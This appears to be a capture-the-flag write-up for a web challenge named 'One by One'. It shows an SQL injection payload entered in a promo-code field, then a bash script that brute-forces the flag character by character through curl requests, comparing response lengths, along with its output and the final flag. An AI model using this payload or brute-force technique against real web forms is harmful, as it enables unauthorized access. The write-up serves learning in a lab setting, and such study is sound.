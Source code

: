 # Web SQL Injection One by One

We accessed the challenge and saw a checkout form with a "Promo Code" input field and this structure:

```html
<form method="POST">
  <input name="promo" type="text" class="form-control" placeholder="Promo code">
  <input type="submit" name="submit" class="btn btn-secondary" value="Redeem">
</form>
```

This hinted that the promo field might be passed directly into an SQL query on the backend, such as: *SELECT * FROM promos WHERE code = '$promo'*

We tested for SQL injection by entering the following payload into the Promo Code field:

```sql
' OR 1=1 -- #
```

The page applied a promo code: SSS{...}

The total updated with a -$20 discount

Injection confirmed! We realized the promo code itself is the flag, and it begins with SSS{, we noticed this by trying to add random chars after { and so at *d* it gave again the promo confirmed.

But we couldn't retrieve the entire flag directly — so we crafted a bash brute-force script that built the flag one character at a time, checking if the promo code is valid by comparing the HTTP response length. (little help from our friend and extra team member chatgpt :) )

```bash
#!/bin/bash

# Hardcoded target URL
url="http://ctf-15.security.cs.pub.ro:8010/"

# Character set: a-zA-Z0-9{}_
str=$(echo {a..z} {A..Z} {0..9} \{ \} _ | tr -d ' ')
insideFlag=""
expected=11085

echo "Start exploit for One by one"
echo "Target: $url"
echo "----------------------------"

while [ -n "$str" ]; do
    next=${str#?}
    char="${str%$next}"
    insideFlag=$insideFlag$char

    out=$(curl -s -d "promo=SSS$insideFlag&submit=Redeem" \
        -H "Content-Type: application/x-www-form-urlencoded" \
        -X POST "$url" | wc -c)

    if [ "$out" -eq "$expected" ]; then
        echo "✔ Match: $char   ->  SSS$insideFlag"

        # Stop if closing brace is reached
        if [[ "$char" == "}" ]]; then
            echo "✅ Closing brace detected. Flag complete."
            break
        fi

        # Reset charset
        str=$(echo {a..z} {A..Z} {0..9} \{ \} _ | tr -d ' ')
        continue
    else
        echo "❌ $char (len: $out)"
        insideFlag=${insideFlag%?}
    fi

    str=$next
done

flag="SSS$insideFlag"
echo "----------------------------"
echo "🎯 Final Flag: $flag"

```

After a lot of waiting... in the middle of the night :). The script revealed the flag character by character, and eventually returned:

```text
❌ 5 (len: 10728)
❌ 6 (len: 10728)
❌ 7 (len: 10728)
❌ 8 (len: 10728)
❌ 9 (len: 10728)
❌ { (len: 10728)
✔ Match: }   ->  SSS{d1d_y0u_really_g0t_th1s_0ne_by_0ne_H7N19xjW}
✅ Closing brace detected. Flag complete.
----------------------------
🎯 Final Flag: SSS{d1d_y0u_really_g0t_th1s_0ne_by_0ne_H7N19xjW}
```
